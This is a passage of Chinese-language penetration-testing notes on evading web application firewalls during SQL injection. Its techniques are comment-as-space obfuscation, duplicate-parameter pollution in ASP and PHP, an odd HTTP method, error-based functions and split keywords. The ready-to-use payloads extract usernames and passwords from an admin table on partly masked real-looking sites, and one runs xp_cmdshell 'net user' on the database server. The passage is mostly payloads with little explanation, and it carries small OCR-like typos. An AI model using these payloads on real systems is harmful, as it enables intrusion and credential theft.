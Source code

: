 * 用 `/**/` 代替空格，如：`UNION/**/select/**/user,pwd from tbluser`
* 用 `/**/` 分割敏感词，如：`U/**/NION/**/SE/**/LECT/**/user,pwd from tbluser`

### 复参数绕过

#### 示例链接

 `?id=1 union select 1&id=pass from admin`

* 会被拦截
    *http://www.***.cn/shownews.asp?id=%28-575%29UNION%20%28SELECT%201,username,3,4,passwd,6,7,8,9,10,11,12,13,14,15,16,17,18%20from%28admin%29%29*

* 不会被拦截
    *http:/www.***.cn/shownews.asp?id=%28-575%29UNION%20%28SELECT%201,username,3,4,passwd,6,7,8,9,10,11,12,13,14,15,16,17&id=18%20from%28admin%29%29*

#### 两个链接对比

* 第二个链接比第一个链接多了：`&id=`
* 第二个链接比第一个链接少了: `,`

我用参数覆盖的形式绕过了WAF, asp的参数复用 `&id=xx` ->变为 `, xx` 这是个asp一个BUG，也是个绕过的技巧

#### PHP也可以变量覆盖绕过类型，不同于asp

`http://xxx.com/test.php?id=0` 写成 `http://xxx.com/test.php?id=0&id=7 and 1=2`

`&id=0` ->变为 `&id=7 and 1=2` 并没有像asp那样有 `,` 的出现。id参数重复变量的绕过，重复变量的变体。此方法依实际情况而定，部分WAF允许变量覆盖，也就是相同的变量赋了不同的值，精盖了waf的cache。但是后端程序会优先处理最先前的值。

### 异常Method绕过

数据包如下：

```java
Seay /1.php?id=1 and 1=1 HTTP/1.1
Host: [wWw.cnseay.com](http://www.cnseay.com/)
Accept-Language: zh-cn,zh;q=0.8,en-uS;q=0.5,enjq=0.3
Accept-Encoding: gzip, deflate
Connection: keep-alive
```

### 冷门函数/标签绕过

前文中一些报错的函数有时不会被低级WAF拦截

* `/1.php?id=1 and 1=(updatexmI(1,concat(0x3a,(select user())),1));`
* `/1.php?id=1 and extractvalue(1,concat(0x5c,(select table_name from information_schema.tables limit 1));`

### WAF 规则、策略阶段的绕过

#### 关键字拆分绕过

 `cnseay.com/1.aspx?id=1;EXEC('ma'+'ster..x'+'p_cm'+'dsh'+'ell "net user"')`
